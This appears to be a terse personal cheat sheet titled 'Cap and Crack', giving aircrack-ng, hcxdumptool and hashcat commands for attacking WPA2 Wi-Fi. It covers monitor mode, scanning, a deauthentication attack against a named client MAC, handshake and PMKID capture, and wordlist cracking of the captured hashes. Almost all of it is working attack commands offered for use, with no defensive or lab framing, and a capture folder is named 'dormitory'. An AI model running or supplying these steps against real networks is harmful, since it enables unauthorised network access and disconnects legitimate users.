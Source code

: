 # Cap and Crack
## handshake
### prepare
`sudo airmon-ng check kill`
`sudo airmon-ng check kill`
`sudo airmon-ng check kill`
...
`iwconfig`
`airmon-ng start wlan0`
`iwconfig`

### scan
`sudo airodump-ng -w ~/mnt/hgfs/L/hashcat-5.0.0/dormitory wlan0mon`
stop

### monitor
`sudo airodump-ng --bssid DC:EE:06:96:B7:B8 -c 6 -w sec wlan0mon`

### deauth
`sudo aireplay-ng -0 10 -a EC:26:CA:33:E1:B6 -c C0:EE:FB:E9:9D:7C wlan0mon`

### stop
`Ctrl+C`
`sudo airmon-ng stop wlan0mon`

### convert
`cap2hccapx input.pcap output.hccapx`

### crack
`-m 2500`

## PMKID
### prepare
* `sudo airmon-ng check kill`
* `sudo airmon-ng start wlx70f11c11576b`
* `sudo airodump-ng wlan0mon` `Ctrl+C`
* `echo "FCD733E71B78" > apmac.txt`
* `sudo airmon-ng stop wlan0mon`
* set the interface to monitor mode manually:
     * `sudo ip link set <interface> down`
     * `sudo iw dev <interface> set monitor control`
     * `sudo ip link set <interface> up`

### cap
`sudo hcxdumptool -o test.pcapng -i wlp39s0f3u4u5 --filterlist=apmac.txt --filtermode=2 --enable_status=3`
`sudo hcxdumptool -o test.pcapng -i wlp39s0f3u4u5 --enable_status=3`

### convert
`$ sudo hcxpcaptool -z test.16800 test.pcapng`
`$ sudo hcxpcaptool -E essidlist -I identitylist -U usernamelsit -z test.16800 test.pcapng`
`echo 50555245204655524e4954555245 | xxd -r -p`
`whoismac -p 69d4ec91a19657d64d4ccc869c229bbe*9e3dcf272236*f0a225dab76d*53696c7665724d61676e6f6c6961`

### change to managed mode
`sudo ip link set wlx00c0ca972033 down`
`sudo iw dev wlx00c0ca972033 set type managed`
`sudo ip link set wlx00c0ca972033 up`

### crack
`c:\Users\Adam\Downloads\hashcat-4.2.0>hashcat64.exe -m 16800 E4200-WPA2PSK.16800 -a 0 wordlist.txt`
